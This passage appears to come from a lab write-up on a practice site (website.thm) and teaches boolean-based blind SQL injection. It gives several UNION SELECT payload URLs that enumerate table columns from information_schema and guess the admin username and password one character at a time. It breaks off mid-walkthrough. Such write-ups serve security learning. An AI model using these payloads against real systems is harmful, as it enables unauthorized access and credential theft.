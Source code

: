 <p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0d62b059-7521-410b-a119-e129fbbad6ba " >
</p>

taken : false ! we guessed first char ***a*** is wrong, we try more guession to find the name;
we know that name of column is ***id*** by this payload;

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'id';
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/f620bb60-2766-4c6e-b8b9-c933b21ba1ae " >
</p>

if we want know also name of column we use this payload:

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'u%' and COLUMN_NAME !='id';
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/754bbc24-a5c6-4d96-8903-d61a9cc54ecc " >
</p>

we trying more guession and know also names username and password;

WOOW! Now we name of table and columns 
Now let's go to find username and password!

we try this payload:

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 from users where username like 'a%
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a0ae4ae8-acf8-4762-a876-d9889a0d0946 " >
</p>

the taken:true ; we guessed correct first char in name of username;
we know that username is ***admin***

Now we want to find password of admin;

we try this payload:

```
https://website.thm/checkuser?username=mohamed' UNION SELECT 1,2,3 from users where username='admin' and password like '3%
```

<p align="center">
<img src="https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0bfeb059-8975-4bd4-888d-4c36bfaad3ca " >
</p>

